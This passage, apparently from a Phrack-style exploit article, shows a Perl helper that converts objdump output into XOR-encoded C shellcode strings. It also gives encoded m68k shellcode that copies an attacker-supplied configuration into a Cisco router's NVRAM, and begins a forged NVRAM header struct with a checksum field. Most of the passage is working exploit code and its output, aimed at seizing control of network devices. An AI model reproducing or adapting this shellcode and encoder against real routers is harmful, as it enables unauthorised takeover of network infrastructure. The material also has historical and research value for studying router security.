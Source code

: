  ``` 
	$tabnum=4-(length($hexcode)/8);  
	$tabs="\t"x$tabnum;  
	$hexcode="";  
	foreach (@bytes) {  
		$_=hex($_);  
		$_=$_^$pattern if($pattern);  
		$hexcode.=sprintf("\\x%02X",$_);  
	}  
	print "\t\"".$hexcode."\"".$tabs."//".$mnemonic." (0x".$alc.")\n";  
    }  
}  
--- end objdump2c.pl ---  
```  
You can use the output of objdump and pipe it into the script. If the  
script got no parameter, it will produce the C char string without  
modifications. The first optional paramter will be your XOR pattern and the  
second one can be the address your buffer is going to reside at. This makes  
debugging the code a hell of a lot easier, because you can refer to the  
comment at the end of your C char string to find out which command made the  
Cisco unhappy.  
  
The output for our little config_copy.s code XOR'd with 0xD5 looks like  
this (trimmed for phrack):  
```  
linux# m68k-aout-objdump -d config_copy.o |  
> ./objdump2XORhex.pl 0xD5 0x020F2A24  
  
"\x93\x29\xF2\xD5"              //movew #9984,%sr (0x020F2A24)  
"\xF7\xA9\xDA\x25\xC5\x17"      //moveal #267391170,%a1 (0x020F2A28)  
"\xE7\x69\xD5\xD4"              //movew #1,%a1@ (0x020F2A2E)  
"\x90\x2F\xD5\x87"              //lea %pc@(62 <config>),%a2 (0x020F2A32)  
"\xF7\xA9\xDB\xD5\xD7\x7B"      //moveal #234881710,%a1 (0x020F2A36)  
"\xA1\xD4"                      //moveq #1,%d2 (0x020F2A3C)  
"\xC7\x0F"                      //moveb %a2@+,%a1@+ (0x020F2A3E)  
"\xF7\xE9\xD5\xD5\x2A\x2A"      //movel #65535,%d1 (0x020F2A40)  
"\x46\x97"                      //subxw %d2,%d1 (0x020F2A46)  
"\xBE\xD5\x2A\x29"              //bmiw 22 <write_delay> (0x020F2A48)  
"\xD9\x47\x1F\x2B\x25\xD8"      //cmpil #-889262067,%a2@ (0x020F2A4C)  
"\xB3\xD5\x2A\x3F"              //bnew 1a <copy_confg> (0x020F2A52)  
"\xE7\x29\xD5\xD5"              //movew #0,%a1@+ (0x020F2A56)  
"\xF7\xE9\xD5\xD5\x2A\x2A"      //movel #65535,%d1 (0x020F2A5A)  
"\x46\x97"                      //subxw %d2,%d1 (0x020F2A60)  
"\xBE\xD5\x2A\x29"              //bmiw 3c <write_delay2> (0x020F2A62)  
"\x66\x29\xDB\xD5\xF5\xD5"      //cmpal #234889216,%a1 (0x020F2A66)  
"\xB8\xD5\x2A\x3D"              //bltw 32 <delete_confg> (0x020F2A6C)  
"\x93\x29\xF2\xD5"              //movew #9984,%sr (0x020F2A70)  
"\xF5\xA9\xDA\x25\xD5\xD5"      //moveal #267386880,%a0 (0x020F2A74)  
"\xFB\x85"                      //moveal %a0@,%sp (0x020F2A7A)  
"\xF5\xA9\xDA\x25\xD5\xD1"      //moveal #267386884,%a0 (0x020F2A7C)  
"\xF5\x85"                      //moveal %a0@,%a0 (0x020F2A82)  
"\x9B\x05"                      //jmp %a0@ (0x020F2A84)  
```  
Finally, there is only one more thing to do before we can compile this all  
together: new have to create the new NVRAM header and calculate the  
checksum for our new config. The NVRAM header has the form of:  
```  
typedef struct {  
    u_int16_t       magic;  	// 0xABCD  
    u_int16_t       one;	// Probably type (1=ACII, 2=gz)  
    u_int16_t       checksum;  
    u_int16_t       IOSver;  
    u_int32_t       unknown;	// 0x00000014  
    u_int32_t       cfg_end;	// pointer to first free byte in  
				// memory after config  
```